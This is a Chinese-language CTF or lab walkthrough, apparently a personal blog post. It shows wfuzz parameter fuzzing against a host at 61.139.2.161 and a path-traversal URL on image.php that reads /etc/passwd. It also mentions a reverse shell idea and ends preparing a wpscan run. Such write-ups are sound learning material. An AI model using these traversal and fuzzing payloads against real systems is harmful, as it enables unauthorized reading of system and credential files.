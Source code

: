 意思就是过滤出特别的那个payload

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://61.139.2.161/index.php?FUZZ

wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 --hh 136 http://61.139.2.161/index.php?FUZZ
```

![image.png](https://s2.loli.net/2025/04/29/pkWqT31d8o54gMP.png)

最开始是筛选出404的参数

会发现chars的数值是一样的

用-hh来过滤出除了136的所有参数 能出现一个file

![image.png](https://s2.loli.net/2025/04/29/JzcVjRCu6K1PnFH.png)


大纲 总算出来了 其实很早之前就犯了这个错 就是假如这个txt是和secret类似的话 那我们原本字典爆破就应该能出的来 这个给的提示就能看出 file=location.txt

![image.png](https://s2.loli.net/2025/04/29/UbhGdk1BWR9ZnIl.png)


## 傻子操作
意思就是直接在imag.php加个360那个参数就行了 一开始是

```
http://61.139.2.161/image.php?secrettier360？file=/../../../../../../.././../../../../etc/passwd
```
但可想而知 有点sb了

```
http://61.139.2.161/image.php?secrettier360=/../../../../../../.././../../../../etc/passwd
```
直接等于号 成功出现账户密码

![image.png](https://s2.loli.net/2025/04/29/IqYnSpU9zoagD2F.png)


## 关键失误
![image.png](https://s2.loli.net/2025/04/29/hVWaO2HLeDBFNQS.png)

居然没看到这个信息 还想着反弹shell

那只能将计就计 查看一下这个文件

纯唐操作属于是了 没有观察仔细
![image.png](https://s2.loli.net/2025/04/29/mZ2YhjitaQfle87.png)


## wp的漏洞
我们在原本的字典扫描中发现有wp_admin这类wp网站的字样 我们用wpscan扫扫看
